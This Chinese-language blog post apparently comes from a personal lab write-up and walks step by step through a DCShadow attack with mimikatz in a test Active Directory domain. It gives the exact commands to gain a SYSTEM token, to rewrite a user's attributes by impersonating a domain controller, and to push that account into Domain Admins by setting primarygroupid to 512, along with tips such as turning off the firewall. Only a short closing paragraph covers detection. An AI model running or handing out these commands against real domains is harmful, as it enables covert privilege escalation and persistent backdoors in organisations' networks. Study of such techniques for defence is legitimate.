 ```yaml
---
layout: post
title:  "使用mimikatz执行DCShadow攻击"
date:   2020-12-09
tags: ID不重要
color: rgb(135,206,235)
cover: '../assets/dcshadow.png'
subtitle: 'DCShadow创建临时域控'
---
```


# DCShadow
DCShadow是mimikatz中lsadump模块的新功能。它能模拟域控制器的行为（该攻击使用仅由DC使用的RPC的协议）来注入自己想要的数据，从而绕过包括SIEM在内的大多数常见的安全控件。它与DCSync攻击（已经存在于mimikatz的lsadump模块中）具有某些相似之处。
# 测试环境
DC:Windows server 2012
域：tony.local
![1](/assets/DCShadow/1.png)
域主机:Windows server 2016
已加域
![2](/assets/DCShadow/2.png)
## 涉及到的账户
### 域管理组账户
账户名:test
![3](/assets/DCShadow/3.png)
### 域普通账户
账户名:dc
![4](/assets/DCShadow/4.png)
# 实验流程-1
## 创建窗口A
登录域主机Windows server 2016本地账
![5](/assets/DCShadow/5.png)
### 右键管理员打开权限mimikatz
![6](/assets/DCShadow/6.png)
### 启用system权限
依次执行命令，确保当前的进程已system权限打开
{% highlight ruby %}
mimikatz # !+
[+] 'mimidrv' service already registered
[*] 'mimidrv' service already started

mimikatz # !processtoken
Token from process 0 to process 0
 * from 0 will take SYSTEM token
 * to 0 will take all 'cmd' and 'mimikatz' process
Token from 4/System
 * to 584/cmd.exe
 * to 3968/mimikatz.exe

mimikatz # token::whoami
 * Process Token : {0;000003e7} 1 D 1421627     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 * Thread Token  : no token
{% endhighlight %}
### 窗口Ａ
这个窗口暂时命名为:窗口A
![7](/assets/DCShadow/7.png)
## 开始执行DCShadow
### 查看描述
这里更改dc账户的描述，先查看dc的描述，由于我更改过，所以此时显示为
	“hi,hello”
![8](/assets/DCShadow/8.png)
### 执行更改
在刚才启动的窗口A中执行修改命令，来替换“hi,hello”
{% highlight ruby %}
mimikatz # lsadump::dcshadow /object:CN=dc,CN=Users,DC=tony,DC=local /attribute:description /value:"an attcker"
{% endhighlight %}
执行完后如下所示，等待通过RPC协议推送至域控
![9](/assets/DCShadow/9.png)
## 创建窗口B
保持这个窗口，不要关闭！并在管理员权限下打开另一个cmd窗口，这个窗口的权限必须是域管理组成员的权限，也就是Domain admin组成员。
### 使用PSEXEC
这里使用psexec来启用system窗口
![10](/assets/DCShadow/10.png)
### 运行mimikatz
在这个窗口下运行mimikatz,查看当前的权限，为域管理权限test
![11](/assets/DCShadow/11.png)
### 执行推送命令
执行推送命令，下图可以看到，执行完推送命令后，刚开始执行修改的窗口显示RPC server stopped，此时就已经修改完成
{% highlight ruby %}
mimikatz # lsadump::dcshadow /push
{% endhighlight %}
![12](/assets/DCShadow/12.png)
## 查看修改结果
修改成功
![13](/assets/DCShadow/13.png)
# 实验流程-2
将dc账户添加至管理员组(Domain admin)
## 查看描述
首先查看dc的信息
{% highlight ruby %}
PSC:\Users\Administrator> ([adsisearcher]"(&(objectCategory=user)(name=dc))").Findall().Properties
{% endhighlight %}
此时dc的组ID为513
![14](/assets/DCShadow/14.png)
可以参考下面的对应组ID，513为域用户，那想要将dc加入至域管理组，就需要将组ID更改为512
{% highlight ruby %}
    512   Domain Admins
    513   Domain Users
    514   Domain Guests
    515   Domain Computers
    516   Domain Controllers
{% endhighlight %}
## 执行更改
在窗口A中执行
{% highlight ruby %}
mimikatz # lsadump::dcshadow /object:CN=dc,CN=Users,DC=tony,DC=local /attribute:primarygroupid /value:512
{% endhighlight %}
![15](/assets/DCShadow/15.png)
## 执行推送命令
推送至域控制器
![16](/assets/DCShadow/16.png)
## 查看修改结果
查看dc的所属组
![17](/assets/DCShadow/17.png)
![18](/assets/DCShadow/18.png)
# 可能会出现的实验失败情况
在实验过程中，出现推送服务失败的情况，短暂性的卡在如下图的界面，随后出现Performing Unregistration(取消注册)，这里呢，域控之间的通信是通过RPC服务来进行的，执行推送的过程也是需要RPC服务，域控本身RPC服务端口是开放的，但是测试主机的RPC服务端口未开放。所以，有两种解决方法：
1、	把域主机的防火墙关闭
2、	在域主机防火墙中添加策略，开放RPC服务的端口（具体就不再写了，可以自行百度）
![19](/assets/DCShadow/19.png)
![20](/assets/DCShadow/20.png)
6.	总结
DCShadow目前还是具有危害性的操作行为，该技术可以用于更改和删除复制以及其他关联的元数据，以阻止应急人员分析。攻击者还可以利用此技术执行SID历史记录注入和操纵AD对象（例如帐户，访问控制列表等）以建立持久性后门。
这不属于漏洞，因为是使用合法的已记录使用的协议：
{% highlight ruby %}
    MS-ADTS
    MS-DRSR
{% endhighlight %}
这是一种利用后攻击（也称为控制攻击），因为它需要域管理员（或企业管理员）特权。
安全分析人员可以通过流量以及相关的安全日志来查找痕迹。
